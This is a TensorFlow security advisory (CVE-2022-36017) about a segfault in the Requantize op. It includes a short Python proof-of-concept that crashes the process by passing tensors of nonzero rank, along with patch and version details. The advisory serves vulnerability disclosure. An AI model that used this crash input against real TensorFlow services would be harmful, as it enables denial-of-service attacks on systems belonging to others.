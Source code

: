 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-104.md
## TFSA-2022-104: Segfault in `Requantize`

### CVE Number
CVE-2022-36017

### Impact
If `Requantize` is given `input_min`, `input_max`, `requested_output_min`, `requested_output_max` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

out_type = tf.quint8
input = tf.constant([1], shape=[3], dtype=tf.qint32)
input_min = tf.constant([], shape=[0], dtype=tf.float32)
input_max = tf.constant(-256, shape=[1], dtype=tf.float32)
requested_output_min = tf.constant(-256, shape=[1], dtype=tf.float32)
requested_output_max = tf.constant(-256, shape=[1], dtype=tf.float32)
tf.raw_ops.Requantize(input=input, input_min=input_min, input_max=input_max, requested_output_min=requested_output_min, requested_output_max=requested_output_max, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/tensorflow/tensorflow/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
